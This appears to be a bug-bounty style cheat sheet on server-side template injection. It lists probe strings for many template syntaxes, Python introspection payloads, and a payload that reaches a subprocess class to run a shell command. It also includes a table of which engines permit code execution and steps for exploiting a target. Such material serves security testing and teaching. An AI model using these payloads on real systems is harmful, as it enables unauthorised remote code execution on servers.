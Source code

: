 
---

### **Template Injection & Exploitation**

#### **1. Template Injection Payloads**
- **Common Payloads**:
  ```bash
  {{7*7}}, ${7*7},<%= 7*7 %>,#{{7*7}}{7*7}*{7*7}{{7*7}}[[7*7]]${7*7}@(7*7)<?=7*7?><%= 7*7 %>${= 7*7}{{= 7*7}}${{7*7}}#{7*7}[=7*7]
  ```

#### **2. Identify Target Language & Libraries**
1. **Programming Language**:
   - Determine the programming language used by the target (e.g., Python, Java, Ruby).

2. **Libraries**:
   - Identify the libraries or frameworks used (e.g., Jinja2, Twig, Django).

3. **Discovery**:
   - Use various payloads to test and identify the template engine.

#### **3. Research & Tools**
- **Medium**: Check Medium articles for template injection techniques.
- **GitHub**: Search for repositories related to template injection.
- **HackTricks**: Refer to HackTricks for detailed exploitation methods.
- **Tblmap Tool**: Use Tblmap for automated template injection testing.

#### **4. Python Template Injection**
- **Class Identification**:
  ```bash
  {{''.__class__}}
  ```
- **Method Resolution Order (MRO)**:
  ```bash
  {{''.__class__.mro()}}
  ```
- **Subprocess Execution**:
  ```bash
  {{''.__class__.mro()[2].__subclasses__()[233]("uname -a", shell=True, stdout=-1).communicate()}}
  ```

#### **5. Template Engines & Security Features**
- **Jinja2**: Introspection, no sandbox.
- **Django**: Tag code execution, no sandbox.
- **Twig**: Introspection, sandbox.
- **Smarty (PHP)**: Tag code execution, sandbox.
- **Handlebars**: Introspection, tag code execution.
- **Nunjucks**: Introspection, no sandbox.
- **Vue**: Introspection, no sandbox.
- **JavaScript (Dust)**: Bug, local code execution.
- **ERB (Ruby)**: Direct code execution.
- **Razor (.NET)**: Direct code execution.
- **ASP**: Direct code execution.

---

### **How to Use This Information**
1. **Payload Testing**:
   - Use the provided payloads to test for template injection vulnerabilities.

2. **Language & Library Identification**:
   - Identify the programming language and libraries used by the target.

3. **Exploitation**:
   - Use the identified template engine to execute arbitrary code.

4. **Automation**:
   - Utilize tools like Tblmap for automated testing and exploitation.

5. **Research**:
   - Refer to Medium, GitHub, and HackTricks for additional techniques and payloads.

---

- https://medium.com/@muhammad4208/bug-bounty-hunting-web-vulnerability-remote-code-execution-3935b5823657
